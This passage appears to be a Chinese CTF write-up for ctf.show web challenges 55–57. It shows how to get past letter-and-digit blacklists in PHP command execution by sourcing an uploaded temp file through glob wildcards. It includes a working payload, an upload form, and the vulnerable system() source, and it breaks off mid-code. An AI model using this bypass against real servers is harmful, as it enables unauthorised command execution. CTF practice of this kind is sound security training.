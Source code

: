 1. shell下可以利用.来执行任意脚本
1. Linux文件名支持用glob通配符代替

.相当于source，执行一个文件中的命令，那和这题有什么关系呢，我们知道，上传到服务器的文件通常会被创建一个副本保存在指定目录下，而默认目录一般是/tmp/phpXXXXXX，最后六个字符是随机的大小写字母。那我们是不是就可以利用source去执行这个文件呢，确实可以，可以通过构造一个POST数据包进行上传，然后执行服务器上的临时文件，但是文件名有六个字母未知怎么办。可以区分的是，tmp目录下其中的文件是不会有大写字母的，换句话说，最后一个字符是不会出现大写字母的，而恰巧我们上传的文件会有概率被分配到一个包含大写字母的文件名，这一点是区分关键。
接下来是通配符，我们可以用/???/?????????表示/tmp/phpXXXXXX的所有文件，如果要表示大写字符，可以用[@-[]表示，意思是匹配ASCII码在@-[之前所有的字符，而这个区间对应的正好是A-Z
所以payload为：/?c=.+/???/????????[@-[]

- 第一步：构造一个POST请求上传文件
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>
  <!--链接请自行更换-->
<form action="http://200f2114-2431-4ddf-beaf-ac717d3fbfe6.challenge.ctf.show/" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>

```

- 第二步，随便上传个文件，然后抓包，在GET中传入参数执行，POST传入shell命令执行

![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637857221048-80f612cf-8451-49f7-9be3-a8a8ee96440c.png#clientId=u1c3ea20a-1a4c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=ud7f3cd56&margin=%5Bobject%20Object%5D&name=image.png&originHeight=523&originWidth=1141&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69874&status=done&style=none&taskId=u58f753fe-ec44-4ef1-ab31-90800cbb801&title=&width=764)
因为每次上传文件名都是随机的，可能不会一次成功，要多发几次包，看到目录文件后继续查看
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637857330375-64accbc9-1585-4be3-945e-e6d9d282327e.png#clientId=u1c3ea20a-1a4c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=u7a566341&margin=%5Bobject%20Object%5D&name=image.png&originHeight=536&originWidth=1219&originalType=binary&ratio=1&rotation=0&showTitle=false&size=86471&status=done&style=none&taskId=u95b42a1e-df51-453f-a663-93d7bb21bc4&title=&width=796)
成功读到flag

## web56（无数字字母命令执行）
```php
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
同web55
## web57（$(())）
```php
<?php

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
```